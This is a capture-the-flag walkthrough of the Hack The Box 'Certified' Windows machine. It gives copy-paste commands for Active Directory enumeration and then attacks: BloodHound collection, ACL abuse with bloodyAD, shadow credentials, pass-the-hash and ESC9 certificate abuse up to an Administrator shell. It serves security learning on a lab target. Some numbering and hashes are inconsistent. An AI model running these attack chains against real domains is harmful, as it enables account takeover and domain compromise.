

**NOTES:**

VPN 10.10.11.41

**Machine Information**

As is common in Windows pentests, you will start the Certified box with
credentials for the following account: **Username: judith.mader
Password: judith09**

1.  Add **certified.htb** to **/etc/hosts** file **RUN:** **sudo nano
    /etc/hosts**

2.  Nmap error

> **RUN:** **nmap -sSVC -Pn -p- 10.10.11.41  this did not start**
>
> 

3.  **Rerun** with verbose set. **RUN:** **nmap -sV -Pn -v 10.10.11.41**

> 
>
> OR
>
> **Nmap scan:**
>
> **RUN: sudo nmap -Pn -p- \--min-rate 2000 -sC -sV -oN nmap-scan.txt
> TARGET_IP_OR_HOSTNAME_HERE**
>
> **Alternative:**
>
> **RUN: Nmap -sV -Pn -T4 10.10.11.32 (This scan is more aggressive
> (faster))**
>
> **INFO: By pushing SPACE key during scan, you can see what's
> going on during the scans**
>
> 

4.  **Get all User names**

> **INFO:** CrackMapExec (post-exploitation tool) gathers info about
> HOSTS, SERVICES, SHARES within a network
>
> **\--rid-brute:** RID (Relative Identifier) last part of SID.
> Rid-brute enumerates USER-/GROUP-accounts within ACTIVE DIRECTORY.
>
> **RUN:** **crackmapexec smb certified.htb -u \"judith.mader\" -p
> \"judith09\" \--rid-brute \| grep SidTypeUser**
>
> 

5.  **Bloodhound**

> **INFO:** **Bloodhound-python** **-c All** collects
> Users,Groups,Computers,Domains,GPOs,ACLs and more, from Active
> Directory Domain (Downloads **JSON-files**) and sends it to Bloodhound
> Database
>
> **RUN: bloodhound-python -u judith.mader -p \'judith09\' -c All -d
> certified.htb -ns 10.10.11.41**
>
> 
>
> **Error: Failed to get Kerberos TGT**
>
> Fix Kerberos clock skew issue.
>
> **RUN:** **sudo** **ntpdate dc01.certified.htb**
>
> **RUN:** **sudo timedatectl set-ntp true**
>
> **1st Rerun:** **bloodhound-python -u judith.mader -p \'judith09\'
> -c All -d certified.htb -ns 10.10.11.41**
>
> 
>
> 
>
> **(this fixed the ERROR) RUN:** **sudo ntpdate 10.10.11.41**
>
> 
>
> **WORKING** (NO ERRORS) at **2nd Rerun**:
> **bloodhound-python -u judith.mader -p \'judith09\' -c All -d
> certified.htb -ns 10.10.11.41**
>
> 

6.  Import all JSON-files into BloodhoundGUI for analysis

> **INFO:** The JSON-files will be located in the same directory, as the
> Terminal was started in.
>
> 
>
> Bloodhound missing? -\> installation GUIDE
> <https://www.kali.org/tools/bloodhound/>
>
> **6.1 RUN:** **sudo neo4j console INFO:**without this, you
> cannot connect to Database!
>
> **6.2** Open address in Browser and change default Password:
> **localhost:7474/browser**
>
> **6.3** Start Bloodhound: Login with credentials (previously
> configured) **User:** neo4j **Password:** as163452
>
> Drag & Drop JSON files. Go to Analysis TAB or search directly
>
> 
>
> **Direct search**. Type user:USERNAME or group:GROUPNAME
>
> 
>
> **IMPORTANT:** Generic All, Generic Write relations should be
> displayed

7.  **OUTBOUND OBJECT CONTROL**

> Judith can change OWNER of a group, or modify **ACL Access Control
> List**
>
> 

8.  Check
    [**management@certified.htb**](mailto:management@certified.htb)

> **INFO: Generic Write**: The management group **can write to the
> SVCs**.
>
> 
>
> **Management** has FULL CONTROL (Generic All) over **Management_SVC**
>
> 

9.  Check
    [**management_SVC@certified.htb**](mailto:management_SVC@certified.htb)

> 
>
> **Management_SVC** has FULL CONTROL (Generic All) over **CA_Operator**
>
> 

10. Lone's overview INFO: Look for Domain Controller

> 

**User - Foothold**

1.  Change the **OWNER** of **Management group**

> **INFO:** Rename file to run_bloodyAD.py or something else, otherwise
> it won't work
>
> **RUN: python3 run_bloodyAD.py \--host 10.10.11.41 -d certified.htb -u
> judith.mader -p judith09 set owner
> \"CN=Management,CN=Users,DC=certified,DC=htb\" \"CN=Judith
> Mader,CN=Users,DC=certified,DC=htb\"**
>
> 
>
> 

2.  Add **Generic All for Judith.Mader on MANAGEMENT**

> **RUN:** **python3 run_bloodyAD.py \--host 10.10.11.41 -d
> certified.htb -u judith.mader -p judith09 add genericAll
> \"CN=Management,CN=Users,DC=certified,DC=htb\" \"CN=Judith
> Mader,CN=Users,DC=certified,DC=htb\"**
>
> 
>
> 

3.  Add **Group Member**

> **INFO:** If this succeeds, skip next STEP 4
>
> **RUN:** **python3 run_bloodyAD.py \--host 10.10.11.41 -d
> certified.htb -u judith.mader -p judith09 add groupMember
> \"CN=Management,CN=Users,DC=certified,DC=htb\" \"CN=Judith
> Mader,CN=Users,DC=certified,DC=htb\"**
>
> 

4.  Add **Judith.Mader to the Management group**

> **INFO: Same Result as in STEP 3, but uses Remote Procedure Call
> (RPC)**
>
> **RUN:** **net rpc group addmem \"Management\" \"judith.mader\" -U
> \"certified.htb\"/\"judith.mader\"%\"judith09\" -S
> \"DC01.certified.htb\"**
>
> 

5.  **Check** if User Judith.mader is **member of Management group**

> **INFO:** Password is from User Judith.mader
>
> **RUN:** **net rpc group members \"MANAGEMENT\" -U
> \"certified.htb\"/\"judith.mader\" -S \"certified.htb\"**
>
> 

6.  This command uses **certipy-ad** to perform a **\"shadow credential
    attack\" against the management_svc account** in the certified.htb
    domain, using the credentials of judith.mader

> **Result:** If successful, this **will allow authentication to the
> management_svc account** using a certificate, **without needing the
> accounts password**
>
> **RUN:** **certipy-ad shadow add -u \"judith.mader@certified.htb\" -p
> \'judith09\' -account \"management_svc\" -ns 10.10.11.41**
>
> 

7.  TGT: Then **request the TGT ticket, using certificate for
    MANAGEMENT_SVC account**. If an error occurs, use ntpdate to
    synchronize the time zone.

> **INFO:** To get **gettgtpkinit.py** -\> search for-\> **PKINITtools**
>
> **-management_svc.pfx :**This file contains the certificate and
> private key for Management_svc account
>
> **RUN:** **python3 gettgtpkinit.py -cert-pfx management_svc.pfx
> CERTIFIED.HTB/management_svc management_svc.ccache -dc-ip 10.10.11.41
> -v**
>
> **INFO:** If not working, use NTP to synchronize your machine\'s clock
>
> **RUN:** **sudo apt-get install ntp**
>
> **RUN:** **sudo ntpdate 10.10.11.41** (ip is from DC (Machine's VPN
> IP))
>
> **RUN:** **sudo systemctl restart ntp**
>
> **Minikerberos : AS-REP encryption key**
>
> 

8.  Get **NT-HASH (NTLM)**

> **(This is what hash looks like-\> a091c1832bcdd4677c28b5a6a1295584)**
>
> **RUN:** **export KRB5CCNAME=./management_svc.ccache**
>
> **INFO:** This command sets an environment variable named KRB5CCNAME
> to the value ./management_svc.ccache
>
> **RUN:** **python3 getnthash.py CERTIFIED.HTB/management_svc -key
> 5b680911933e7f8641c0bd5b97f8c84185f7cfa75bfdba61d46b0a8f4b00ba62**
>
> **INFO:** Download getnthash.py file. **Paste key from STEP
> 7**. If python3 command shouldn\'t work, resync clock, see
> step 7.
>
> **ERROR:** **Kerberos SessionERROR: KRB_AP_ERR_SKEW(Clock skew too
> great)**
>
> **Solution:** Resync clock, see screenshot below.
>
> 

9.  With NThash, you can use **REMOTE TOOL to LOGIN REMOTELY** (USER:
    management_svc)

> **RUN:** **evil-winrm -i certified.htb -u management_svc -H
> \"a091c1832bcdd4677c28b5a6a1295584\"**

**Root -- Privilege Escalation**

1.  **PASS THE HASH. NTLM-HASH**. Change password of **CA_Operator
    account**

> **INFO: 123456789 will be the NEW PASSWORD**
>
> **INFO: Paste the NTLM HASH** from **FOOTHOLD STEP 8**
>
> **RUN:** **pth-net rpc password \"ca_operator\" \"123456789\" -U
> \"certified.htb\"/\"management_svc\"%\"a091c1832bcdd4677c28b5a6a1295584\":\"a091c1832bcdd4677c28b5a6a1295584\"
> -S \"DC01.certified.htb\"**

2.  Check if MOD is successful

**RUN:** **nxc smb 10.10.11.41 -u ca_operator -p 123456789**

**INFO:**

-nxc=NetExec attempts SMB (ServerMessageBlock) authentication

-type in behind -p, the NEW PASSWORD

3.  Find **vunerable certificate templates** within Active Directory

> **RUN:** **certipy-ad find -u ca_operator -p \'123456789\' -dc-ip
> 10.10.11.41 -text -stdout -vulnerable**
>
> All steps explained in this article:
>
> https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-andrequest-
>
> methods-and-more-7237d88061f7

4.  Get **HASH of CA_OPERATOR** : 89551acff8895768e489bb3054af94fd and
    ca_operator.ccache

> **INFO: Paste the NTLM HASH** from **BOTTOM OF SCREENSHOT in FOOTHOLD
> STEP 8**
>
> **RUN: certipy-ad shadow auto -u management_svc@certified.htb -hashes
> a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -ns
> 10.10.11.41**
> 
>
> INFO: If not working, use NTP to synchronize your machine\'s clock
>
> **RUN:** sudo apt-get install ntp (ONLY needed if app not installed)
>
> **RUN:** **sudo ntpdate 10.10.11.41** (ip is from DC (Machines VPN
> IP))
>
> **RUN:** **sudo systemctl restart ntp**

5.  **RUN:** **export KRB5CCNAME=ca_operator.ccache**

6.  Change the **userPrincipalName** of **ca_operator to be
    Administrator**

**INFO: Paste the NTLM HASH** from **BOTTOM OF SCREENSHOT in FOOTHOLD
STEP 8**

> **RUN:** **certipy-ad account update -username
> management_svc@certified.htb -hashes
> \':a091c1832bcdd4677c28b5a6a1295584\' -user ca_operator -upn
> administrator@certified.htb -ns 10.10.11.41**
>
> **Result: See screenshot in STEP 7, down below.**

7.  Now, we request the vulnerable certificate template ESC9 . We must
    **request the certificate as ca_operator**

> **INFO: Take the hash from result in TERMINAL of STEP 4**
>
> **INFO: certified-DC01-CA\' = common name of Certificate Authority
> (CA)**
>
> **RUN:** **certipy-ad req -ca \'certified-DC01-CA\' -username
> ca_operator@certified.htb -hashes c22b315c040ae6e0efee3518d830362b
> -template CertifiedAuthentication -ns 10.10.11.41**
>
> Saves PFX file.
>
> **ERROR: The NETBIOS connection with the remote host timed out**
>
> Solution: **Repeat command from STEP 7**
>
> 

8.  Then, we **change** **back** the **userPrincipalName** of
    **ca_operator to be something else**, like her original
    **userPrincipalName** ca_operator@certified.htb .

> **RUN:** **certipy-ad account update -username
> management_svc@certified.htb -hashes
> \':a091c1832bcdd4677c28b5a6a1295584\' -user ca_operator -upn
> ca_operator@certified.htb -ns 10.10.11.41**
>
> 

11. Now, if we **try to authenticate with the certificate**, we will
    **receive the NT hash of the Administrator**

> **RUN:** **certipy-ad auth -pfx administrator.pfx -domain
> certified.htb -ns 10.10.11.41**

12. **NO SECURITY EXTENSION -- ESC9**

> **Source:**
> https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.md
>
> Use TOOL Certipy to **obtain CERTIFICATE INFORMATION of
> judith.mader@certified.htb and obtain CERTIFIED-DC01-CA, configuration
> of the CERTIFICATE AUTHORITY (CA)**
>
> **RUN:** **certipy-ad find -u judith.mader@certified.htb -p judith09
> -dc-ip 10.10.11.41**
>
> 

13. NoSecurityExtension exists, see screenshot, so **ESC9 can be used to
    attack**.

> With TOOL Certipy: **Update NT hash to account CA_OPERATOR. Change
> account\'s UserPrincipalName (UPN) to Administrator**.
>
> **RUN:** **certipy-ad account update -username
> management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584
> -user ca_operator -upn Administrator**
>
> **If successful, there is now a Aministrator certificate that can
> represent the account.**

14. **Requests a certificate from a Certificate Authority (CA)** within
    an Active Directory environment

> **RUN:** **certipy-ad req -username ca_operator@certified.htb -p
> 123456789 -ca certified-DC01-CA -template CertifiedAuthentication
> -debug**

15. Use Certipy to **perform Kerberos authentication as a user through
    the certificate file ADMINISTRATOR.PFX**,
    Administrator@certified.htb and successfully obtain the TGT and NT
    hash

> **RUN:** **certipy-ad auth -pfx administrator.pfx -domain
> certified.htb**

16. Use REMOTE TOOL to **LOGIN REMOTELY** (USER: administrator)

> **RUN:** **evil-winrm -i certified.htb -u administrator -H
> \"0d5b49608bbce1751f708748f67e2d34\"**
